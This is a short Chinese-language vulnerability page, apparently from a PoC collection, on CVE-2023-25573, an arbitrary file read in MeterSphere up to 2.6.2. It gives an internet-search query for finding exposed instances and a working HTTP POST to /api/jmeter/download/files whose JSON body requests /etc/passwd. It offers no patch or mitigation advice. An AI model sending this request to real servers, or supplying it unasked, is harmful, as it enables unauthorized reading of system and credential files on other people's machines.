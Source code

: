 # Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包

## 漏洞影响

<a-checkbox checked>Metersphere <=2.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="MeterSphere"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1682156003733-4bf0790b-5111-4258-b8e5-ff8fd83cb017.png)

验证POC

```plain
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![img](../../../.vuepress/public/img/1682155967782-ec79b940-cc14-4615-a984-b645bfc9fedd.png)